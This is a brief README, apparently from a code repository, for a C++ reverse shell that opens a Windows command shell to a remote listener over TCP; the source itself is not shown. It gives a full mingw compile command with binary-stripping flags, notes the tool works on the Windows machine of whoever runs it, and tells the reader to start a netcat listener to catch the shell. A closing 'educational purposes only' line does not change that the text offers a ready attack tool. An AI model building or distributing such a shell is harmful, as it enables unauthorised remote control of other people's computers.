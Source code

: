 ## C ++ Reverse Shell

This is a simple C++ reverse shell that gives us a windows cmd shell over TCP connection.
<br>
<br>
Requirements:
- mingw-w64 lib

(works only if the person runnin this is on windows)

# Compile it:
`i686-w64-mingw32-g++ reverse.cpp -o reverse.exe -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc`

# Netcat listener
Turn on your netcat listener on the port you've put in the script:
`nc -lvnp $port`

# This is for educational purposes only.
